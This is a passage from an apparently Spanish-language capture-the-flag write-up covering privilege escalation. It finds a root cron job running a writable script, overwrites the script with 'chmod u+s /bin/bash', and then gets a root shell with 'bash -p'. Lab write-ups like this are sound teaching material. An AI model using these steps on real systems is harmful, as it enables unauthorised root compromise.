-rw-r--r-- 1 root root  201 Jan  8  2022 e2scrub_all
-rw-r--r-- 1 root root   37 Mar 10 13:55 nightblade
-rw-r--r-- 1 root root  712 Jan 27  2022 php
```

Veremos uno interesante llamado `nightblade` el cual si leemos:

```
* * * * * root /opt/scripts/check.sh
```

Se confirma que el script `check.sh` se ejecuta **cada minuto como root**, lo que lo convierte en un vector directo de escalada de privilegios.

### Explotación mediante modificación del script

Dado que tenemos permisos de escritura sobre el script, lo sobrescribimos con una payload que nos permita escalar privilegios:

```shell
nano /opt/scripts/check.sh

#Dentro del nano
#!/bin/bash
chmod u+s /bin/bash
```

Este payload asigna el bit **SUID** a `/bin/bash`, permitiendo su ejecución con privilegios de `root`.

### Obtención de acceso root

Tras esperar a que el cron ejecute el script (máximo 1 minuto), verificamos los permisos de `bash`:

```
-rwsr-xr-x 1 root root 1396520 Mar 14  2024 /bin/bash
```

Confirmamos que el bit `SUID` está activo. Ahora simplemente ejecutamos:

```shell
bash -p
```

Respuesta:

```
bash-5.1# whoami
root
```

Con esto conseguimos acceso como **root**, completando la escalada de privilegios y comprometiendo completamente el sistema.
